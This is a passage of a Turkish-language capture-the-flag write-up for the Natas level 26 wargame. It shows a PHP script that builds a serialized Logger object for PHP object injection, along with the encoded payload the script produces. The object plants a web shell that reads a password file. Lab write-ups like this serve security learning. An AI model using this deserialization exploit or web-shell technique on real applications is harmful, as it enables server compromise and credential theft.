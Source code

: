 Exploiti için;

{% highlight php %}
 <?php
   
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct($file){
            // initialise variables
            $this->initMsg="<? passthru(' cat /etc/natas_webpass/natas27'); ?>";
            $this->exitMsg="<? passthru(' cat /etc/natas_webpass/natas27'); ?>";
            $this->logFile = "img/burju.php";
      
        }                       
      
        function log($msg){
            ;
        }                       
      
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }
    
   $obj=new Logger("aa");
   echo urlencode(base64_encode(serialize($obj)));
   
?>

{% endhighlight %}

şeklinde malformed class oluşturuyoruz.Scriptin çalıştırılması sonucu;

"Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMzoiaW1nL2J1cmp1LnBocCI7czoxNToiAExvZ2dlc
gBpbml0TXNnIjtzOjUwOiI8PyBwYXNzdGhydSgnIGNhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA%2FPiI7czoxN
ToiAExvZ2dlcgBleGl0TXNnIjtzOjUwOiI8PyBwYXNzdGhydSgnIGNhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA
%2FPiI7fQ%3D%3D" değerini elde ediyoruz.
 
 <figure>
<img src="/assets/img/natas/natas269.png">
</figure>
<figure>